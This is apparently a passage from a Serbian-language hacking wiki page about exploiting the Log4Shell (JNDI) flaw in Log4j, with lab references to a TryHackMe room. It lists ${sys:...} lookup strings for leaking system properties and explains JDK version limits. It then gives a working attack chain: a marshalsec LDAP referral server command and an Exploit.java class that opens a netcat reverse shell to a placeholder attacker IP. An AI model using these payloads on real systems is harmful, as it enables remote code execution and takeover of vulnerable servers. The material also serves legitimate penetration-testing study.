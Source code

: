 ```
${sys:java.vm.specification.version}
${sys:java.vm.vendor}
${sys:java.vm.version}
${sys:line.separator}
${sys:os.arch}
${sys:os.name}
${sys:os.version}
${sys:path.separator}
${sys:user.dir}
${sys:user.home}
${sys:user.name}

Any other env variable name that could store sensitive information
```

### RCE Informacije

{% hint style="info" %}
Sistemima koji koriste JDK verzije iznad 6u141, 7u131 ili 8u121, zaštićeni su od LDAP napada putem učitavanja klasa. Ovo je zbog podrazumevanog deaktiviranja `com.sun.jndi.ldap.object.trustURLCodebase`, što sprečava JNDI da učita udaljeni codebase putem LDAP-a. Međutim, važno je napomenuti da ove verzije **nisu zaštićene od napada putem deserializacije**.

Za napadače koji ciljaju da iskoriste ove više verzije JDK-a, neophodno je iskoristiti **povereni uređaj (gadget)** unutar Java aplikacije. Alati poput ysoserial ili JNDIExploit često se koriste u tu svrhu. Nasuprot tome, iskorišćavanje nižih verzija JDK-a je relativno lakše jer se ove verzije mogu manipulisati da učitaju i izvrše proizvoljne klase.

Za **više informacija** (_kao što su ograničenja na RMI i CORBA vektore_) **proverite prethodni odeljak o JNDI Naming Reference** ili [https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/)
{% endhint %}

### RCE - Marshalsec sa prilagođenim opterećenjem

Možete testirati ovo na **THM box-u:** [**https://tryhackme.com/room/solar**](https://tryhackme.com/room/solar)

Koristite alat [**marshalsec**](https://github.com/mbechler/marshalsec) (dostupna je verzija u obliku jar fajla [**ovde**](https://github.com/RandomRobbieBF/marshalsec-jar)). Ovaj pristup uspostavlja LDAP referalni server za preusmeravanje veza ka sekundarnom HTTP serveru gde će biti smešten eksploatacioni kod:

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your_ip_http_server>:8000/#Exploit"
```

Da biste naveli cilj da učita kod reverznog šella, kreirajte Java datoteku nazvanu `Exploit.java` sa sadržajem ispod:

```java
public class Exploit {
static {
try {
java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
} catch (Exception e) {
e.printStackTrace();
}
}
}
```
